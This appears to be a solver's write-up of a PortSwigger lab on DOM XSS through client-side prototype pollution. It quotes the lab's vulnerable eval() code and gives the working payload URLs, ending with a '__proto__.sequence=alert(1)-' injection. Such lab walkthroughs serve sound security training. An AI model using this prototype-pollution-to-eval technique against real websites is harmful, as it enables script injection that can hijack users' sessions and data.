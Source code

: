 
# DOM XSS via an alternative prototype pollution vector

This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

Find a source that you can use to add arbitrary properties to the global Object.prototype.

Identify a gadget property that allows you to execute arbitrary JavaScript.

Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.

Hint: Pay attention to the XSS context. You need to adjust your payload slightly to ensure that the JavaScript syntax remains valid following your injection.

---------------------------------------------

References: 

- https://portswigger.net/web-security/prototype-pollution/client-side



![img](images/DOM%20XSS%20via%20an%20alternative%20prototype%20pollution%20vector/1.png)

---------------------------------------------

There are some scripts imported when searching:



![img](images/DOM%20XSS%20via%20an%20alternative%20prototype%20pollution%20vector/2.png)


This is the file “/resources/js/searchLoggerAlternative.js”:



![img](images/DOM%20XSS%20via%20an%20alternative%20prototype%20pollution%20vector/3.png)


When accessing “/?search=aaa&__proto__.foo=bar”, Object.prototype has the field “foo”:



![img](images/DOM%20XSS%20via%20an%20alternative%20prototype%20pollution%20vector/4.png)


We can change it to “sequence” searching “/?search=aaa&__proto__.sequence=bar”. There is a problem in the eval() function stating “bar1 does not exist”:



![img](images/DOM%20XSS%20via%20an%20alternative%20prototype%20pollution%20vector/5.png)



That is because of these lines:

``` 
let a = manager.sequence || 1;
manager.sequence = a + 1;
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
``` 

It is necessary to add “-”, the request is "/?search=aaa&__proto__.sequence=alert(1)-":



![img](images/DOM%20XSS%20via%20an%20alternative%20prototype%20pollution%20vector/6.png)


-------------------------------------------------------------------





![img](images/DOM%20XSS%20via%20an%20alternative%20prototype%20pollution%20vector/7.png)
![img](images/DOM%20XSS%20via%20an%20alternative%20prototype%20pollution%20vector/8.png)